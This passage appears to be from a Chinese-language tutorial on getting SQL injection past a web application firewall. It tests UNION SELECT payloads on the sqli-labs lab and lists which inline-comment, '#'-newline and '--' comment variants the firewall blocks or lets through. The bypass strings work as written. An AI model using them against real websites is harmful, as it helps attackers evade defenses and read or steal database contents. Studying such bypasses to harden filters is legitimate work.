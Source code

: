 内联注释 `/*!/*!*/` 

```
http://192.168.59.129/Less-1/?id=1' union/*!/*!50000select*/ 1,2,3--+  拦截

http://192.168.59.129/Less-1/?id=1' union/*!/*!5select*/ 1,2,3--+  不拦截


```

为什么不拦截 ，因为50000是他的版本号，你多一位少一位语句是不能能正常执行的，所以他就放行了，那么我们可以用burp来遍历这个值呢，结果的确是我们想要的

```
http://192.168.59.129/Less-1/?id=1' union/*!/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=1' union/*!11441/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=1' union/*!11440select*/ 1,2,3--+ 不拦截

http://192.168.59.129/Less-1/?id=-1' union/*!11440/**/%0aselect*/ 1,2,3--+  不拦截

```

这句bypass的核心就在于版本号,然后你就感觉fuzz了千种姿势,但是核心还是这个，最简也是这个,万变不离其宗。


2.  注释绕过

联想注释我们还知道有 --  #  那么他们可以利用吗，当然是肯定的，其实很久以前就有大佬发过这个语句了是
`union %23%0aselect` 因为这些都是单行注释，而%0a 是换行的url编码,大家可以换行后用url编码看看，就是这个，
但是这样已经被加入规则库了，如何绕过呢 非常简单 当然这是个fuzz的过程，其实我只想写出思路，而不是直接给payload。

```
union %23%0aselect 拦截

union %23select 拦截

union a%23 select 不拦截

union all%23 select 不拦截

union all%23%0a select 不拦截

union %23%0aall select 不拦截


```

有时候fuzz右边不行 不如看看左边 为什么可以加all 这个你就得看看mysql手册了，其实测试到最后发现%23%0a中间不能加字符否则会背拦截。



3.  -- 注释绕过

-- 其实大佬们也一样很早说了不过最初的姿势是 `-- %0a` 当然已经被加入豪华午餐了，所以我们来测试 

```
union all -- %0a select 拦截

union  -- ()%0a select 拦截

union  -- 1%0a select 不拦截

union  -- hex()%0a select 不拦截

```
